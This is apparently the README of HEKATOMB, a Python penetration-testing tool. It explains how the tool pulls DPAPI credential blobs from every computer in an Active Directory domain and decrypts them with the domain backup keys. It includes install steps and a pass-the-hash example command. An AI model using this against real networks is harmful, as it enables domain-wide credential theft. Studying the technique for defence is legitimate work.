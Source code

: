 # The HEKATOMB project

<div align="center">
  <br>
  [![Python](https://img.shields.io/badge/Python-3.6+-informational)]
  <br>
  <a href="https://twitter.com/intent/follow?screen_name=ProcessusT" title="Follow"><img src="https://img.shields.io/twitter/follow/ProcessusT?label=ProcessusT&style=social"></a>
  <br><br>
</div>

> Hekatomb is a hacking script that connects to LDAP directory to retrieve all computers and users informations.
> Then it will download all DPAPI blob of all users from all computers and uses Domain backup keys to decrypt them.
> 
> Script kiddies codes in C#, real pentester uses Python 🐍
> 
<br><br>
<div align="center">
![info](./.assets/hekatomb.png)
</div>
<br><br>
## What da fuck is this ?
<br />
On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files.<br />
Outside of a domain, the user's password hash is used to encrypt these "blobs".<br />
When you are in an Active Directory environment, the Data Protection API uses the domain controller's public key to encrypt these blobs.<br />
With the private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the workstations in the domain.<br />
Hekatomb automates the search for blobs and the decryption to recover all domain users' secrets ☠️
<br />
<br />

## Requirements
<br>
Hekatomb is coded in Python 3 and uses Pip to install its requirements
<br>
```
git clone https://github.com/Processus-Thief/HEKATOMB
cd HEKATOMB
pip3 install -r requirements.txt
```
<br><br>


## Usage
<br>
Hekatomb uses Impacket syntax :
<br>
```
usage: hekatomb.py [-h] [-pvk PVK] [-hashes LMHASH:NTHASH] [-dns DNS] [-port [port]] [-md5] [-debug] [-debugmax] target

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address of DC>

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -pvk PVK              domain backup keys file
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH
  -dns DNS              DNS server IP address to resolve computers hostname
  -port [port]          port to connect to SMB Server

verbosity:
  -md5                  Print md5 hash insted of clear passwords
  -debug                Turn DEBUG output ON
  -debugmax             Turn DEBUG output TO MAAAAXXXX
```
<br>
<br>
## Example
<br>
```
python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -pvk pvkfile.pvk
```
<br>
<br>
If no domain backup keys are provided, the script will only retrieve DPAPI blobs without decrypting them.
